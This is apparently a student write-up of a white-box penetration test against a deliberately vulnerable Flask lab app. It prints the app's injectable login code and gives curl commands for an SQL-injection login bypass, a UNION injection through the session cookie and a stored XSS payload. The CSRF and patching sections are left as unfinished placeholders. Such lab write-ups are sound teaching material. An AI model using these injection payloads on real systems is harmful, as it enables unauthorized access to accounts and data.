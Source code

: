 ```yaml
---
title: This Damned Vulnerable Snake!
date: 2024-05-04
author:
  - "0x42697262"
  - Orochi
  - Jinx
---
```


Authors:

- 0x42697262
- Jinx
- Orochi

# This Damned Vulnerable Snake!

## TL;DR

Here are the vulnerabilities and to exploit them:

### SQL Injection

```bash
curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=a' OR 1=1 --&password="
```

### Stored XSS

```bash
curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT id, username FROM users --" --data-raw 'message=<script>alert(window.origin)</script>'
```

### CSRF

how

## Introduction

Another month, another machine problem.
However this time, we're diving into some white-box penetration testing, which means we have full access to the source code of the web server.

The instructions to install and run the server is already provided in the [writeup](./writeup/README.txt) directory.
Please read and follow the instructions to setup the Python Flask web server.

Once the server is up and running, visit [http://0.0.0.0:5000](http://0.0.0.0:5000) and be greeted with a remnant of the 90s internet web page login.
*It's ugly because there's no CSS.*

If using a web browser is annoying, use `curl`.

```bash
curl -L 'http://0.0.0.0:5000'
```

And return an HTML login page.

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Login</title>
  </head>
  <body>
    <form method="post" action="/login">
      <label for="username">Username</label>
      <input name="username" type="text" />
      <label for="password">Password</label>
      <input name="password" type="password" />
      <input type="submit" value="Login" />
    </form>
  </body>
</html>
```

Then that's it.
That's the only thing that can be seen on the website without logging in.
There's no `robots.txt` because the web server is simple and small.

The mission of this machine problem?
It is to **find vulnerabilities** as much as possible and **exploit** them.

That is what we will be doing today!

## Exploitation

Since we have full access to the server already, there's no need to perform reconnaissance. 
Thus we will head straight to exploitation.

First up is the login page.
There is no need to **bruteforce** the login page as its vulnerability is obvious.

Take a look at this code, it is possible to perform SQL injection to it.

```python
@app.route("/login", methods=["GET", "POST"])
def login():
    cur = con.cursor()
    if request.method == "GET":
        if request.cookies.get("session_token"):
            res = cur.execute("SELECT username FROM users INNER JOIN sessions ON "
                              + "users.id = sessions.user WHERE sessions.token = '"
                              + request.cookies.get("session_token") + "'")
            user = res.fetchone()
            if user:
                return redirect("/home")

        return render_template("login.html")
    else:
        res = cur.execute("SELECT id from users WHERE username = '"
                    + request.form["username"]
                    + "' AND password = '"
                    + request.form["password"] + "'")
        user = res.fetchone()
        if user:
            token = secrets.token_hex()
            cur.execute("INSERT INTO sessions (user, token) VALUES ("
                        + str(user[0]) + ", '" + token + "');")
            con.commit()
            response = redirect("/home")
            response.set_cookie("session_token", token)
            return response
        else:
            return render_template("login.html", error="Invalid username and/or password!")
```

Notice that the flow of this code redirects to the homepage when a session is present but proceeds to the login page when one is not.

On the `GET` method request, the SQL code is vulnerable.
However, we won't be focusing on that.

### SQL Injection Authentication Bypass (aCVE-2024-1)

The simplest part is the `POST` request because even if we don't have full access to the source code, we can still conduct basic checks to determine if the server is vulnerable or not.

This part of the code can be exploited to bypass the login and allows us to use the first user index, usually admin or root in others.

```python
res = cur.execute("SELECT id from users WHERE username = '"
            + request.form["username"]
            + "' AND password = '"
            + request.form["password"] + "'")
```

To exploit this page, simply set the username to a SQL query that evaluates to `TRUE`.

- `228922' OR 1=1 --`
- `228922' OR TRUE --`

This would get parsed by the sqlite3 handler as

```sql
SELECT id from users WHERE username = '228922' OR 1=1 -- AND password = ''
```

> [!NOTE]
> `'` is used instead of `"` because that's what the source code uses.
> Otherwise, it's `"`.

And we're in!
We should now be greeted with

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Home</title>
  </head>
  <body>
    <h2>Welcome, alice!</h2>
    <a href="/logout">Logout</a>
    <h3>Posts</h3>
    <form method="post" action="/posts">
      <input type="text" name="message">
      <input type="submit" value="Post!">
    </form>
    <ul>
      No posts.
    </ul>
  </body>
</html>
```

And logged in as `alice`.

Unfortunately, the database only contains `alice` as the user (not even root or admin) and an unhashed password (which is very unsecure!!!).

Let's just call this **SQL Injection Authentication Bypass (aCVE-2024-1)** as some sort of a tracker for this machine problem (of course this CVE doesn't exist irl, a joke btw).

To explain how this works, the original SQL statement looks for a `username` if it exists then proceeds to verify the `password`.
But since we have modified the `WHERE` clause, it wouldn't matter if a username does not exist since it would always evaluate to `TRUE`.

This would mean that the SQL parameter would be similar to `SELECT id FROM users;` then only fetch the first result.


---

This will also create a new `session_token` every time.
curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=' UNION select 24 from users; --&password="

curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT '69420' as id, 'eli' as username FROM users LIMIT 1--" --data-raw 'message=<script>alert(window.origin); alert(177013)</script>'

curl 'http://0.0.0.0:5000/home'  -H 'Cookie: session_token=f5c8541ad5f844d551a4fc9f2554b821b437232324d32260e6d260c4603dbf8a' 

## Patching the vulnerabilities

change code bro
